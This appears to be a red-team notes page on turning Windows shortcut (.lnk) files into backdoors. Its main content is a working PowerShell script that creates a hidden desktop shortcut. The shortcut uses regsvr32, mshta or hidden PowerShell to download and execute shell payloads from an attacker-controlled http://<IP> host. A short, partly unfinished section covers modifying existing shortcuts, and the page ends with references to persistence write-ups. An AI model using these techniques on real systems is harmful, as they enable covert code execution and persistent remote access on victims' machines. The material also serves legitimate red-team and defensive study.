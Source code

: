 # Shortcut Links

## 1.1 - Create shortcut backdoor in PowerShell

> [!NOTE]
> The **TargetPath** has a limit of 260 characters long

```powershell
$shortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)

## Scriptlet files .sct
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll'

# For HTA files
# $Shortcut.TargetPath = 'C:\Windows\System32\mshta.exe'
# $Shortcut.Arguments = 'http://<IP>/shell.hta'

# For conhost.exe and powershell one-liner
# $Shortcut.TargetPath = 'conhost.exe'
# $Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/shell.ps1`'))`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
attrib +h $shortcutPath
```

## 1.2 - Modify existing .lnk shortcuts to insert backdoor in powershell

TODO: I got this covered - Userware

- First gather the variables to recreate a new one.

```
PS C:\> Get-CimInstance Win32_ShortcutFile | Select-Object Name, FileName, CreationDate, LastAccessed, Drive, Path, FileType
```

```powershell
PS C:\>
```

TODO: Use ADS (Alternate Data Streams) in the `.lnk` file with an payload

```
cmd /c mshta %CD%\Edge.lnk
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Windows/Manual|Living off the Land: Shortcut Link File]]

- [List lnk or shortcut files in Windows with PowerShell](https://quickbytesstuff.blogspot.com/2020/05/list-lnk-or-shortcut-files-in-windows.html)

- [Dimitri's Wanderings: Get Shortcut contents in Powershell](https://dimitri.janczak.net/2018/03/26/get-shortcut-contents-in-powershell/)

- [Editing shortcut (.lnk) properties with Powershell](https://theprogrammersfirst.wordpress.com/2020/07/22/editing-shortcut-lnk-properties-with-powershell/)

### Persistence Info

- [Persistence Info: Keyboard shortcut](https://persistence-info.github.io/Data/keyboardshortcut.html)

### Red Team Notes

- [Red Team Notes: Modifying .lnk Shortcuts](https://www.ired.team/offensive-security/persistence/modifying-.lnk-shortcuts)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)